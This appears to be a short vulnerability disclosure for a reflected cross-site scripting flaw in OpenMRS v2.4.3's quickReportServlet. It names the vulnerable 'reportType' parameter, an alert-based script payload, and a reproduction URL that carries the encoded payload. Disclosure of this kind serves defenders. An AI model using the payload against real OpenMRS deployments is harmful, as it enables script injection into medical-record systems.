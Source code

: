 # CCVE-2025-25929

---

## Reflected XSS


OpenMRS v2.4.3 Build 0ff0ed allows attackers to execute arbitrary JavaScript or HTML by injecting a crafted payload into the reportType 
 parameter at the /openmrs/moduleServlet/legacyui/quickReportServlet endpoint

* Vulnerable Endpoint: /openmrs/moduleServlet/legacyui/quickReportServlet
* Vulnerable Param: reportType
* Payload: <script>alert(document.domain)</script>

---

### Steps to reproduce:

1.) Authenticate as any user who has access to View Quick Reports, in this case the Admin user.

2.) Proceed to http://localhost:8080/openmrs/moduleServlet/legacyui/quickReportServlet?reportType=RETURN+VISIT+DATE+THIS+WEEK%3Cscript%3Ealert(document.domain)%3C/script%3E&startDate=01%2F14%2F2025&endDate=01%2F15%2F2025&location= and observe reflected XSS within the reportType parameter:

![image](https://github.com/user-attachments/assets/cf915031-d93a-4d7a-9d72-6a750618088b)



